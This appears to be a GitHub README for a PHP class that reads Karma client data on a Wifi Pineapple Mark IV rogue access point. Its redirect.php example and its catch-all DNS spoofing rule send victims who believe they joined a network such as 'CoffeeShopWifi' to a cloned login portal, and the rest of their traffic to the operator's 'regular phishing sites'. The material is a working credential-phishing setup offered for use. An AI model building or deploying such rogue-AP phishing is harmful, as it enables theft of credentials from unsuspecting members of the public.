 # wfp_karma_php
Karma PHP class for Wifi Pineapple Mark IV

This PHP class allows you to see the current Karma clients and their info in a your PHP.

It's essentially the core karma functions from the dashboard wrapped in a PHP class.

This allows you to do some advanced phishing, particularly AP-Based Phishing in your redirect.php.

Let's look at an example.

Let's say you want to take all traffic from "CoffeeShopWifi" and phish with your CoffeeFi portal clone, while still letting all those other random APs filter through to your normal phishing sites.

Set up your redirect.php like so, using Karma.php:

```php
<?php
//AP-based redirecting
    require_once("Karma.php");	//this should be in the same dir as your redirect.php
    $client_ip = $_SERVER['REMOTE_ADDR'];	//get the IP the client is connected to the WFP on
    $karma = new Karma();	//instantiate
    $karma->loadStations();	//this loads the current clients into Karma
    
    $client_ap = $karma->get_ssid_by_ip($client_ip);	//this gets the current user's AP
    
    if(!empty($client_ap)){
		switch(strtolower($client_ap)){
			case "cofeeshopwifi":
			    header('Status: 302 Found');
                header('Location: coffeelogin.html');
                break;
        }	
	}

    
    //Fall through to site-based redirecting
    $ref = "http://".$_SERVER['HTTP_HOST'].$_SERVER['REQUEST_URI'];
    if (strpos($ref, "example")){
	    header('Status: 302 Found');
        header('Location: example.php');
    }
    //... 
    //all the rest of your regular phishing sites
    //..
```

Note: In order for this to work, you need to set up your dns spoofing rules to capture all requests:
```
172.16.42.1 *
```
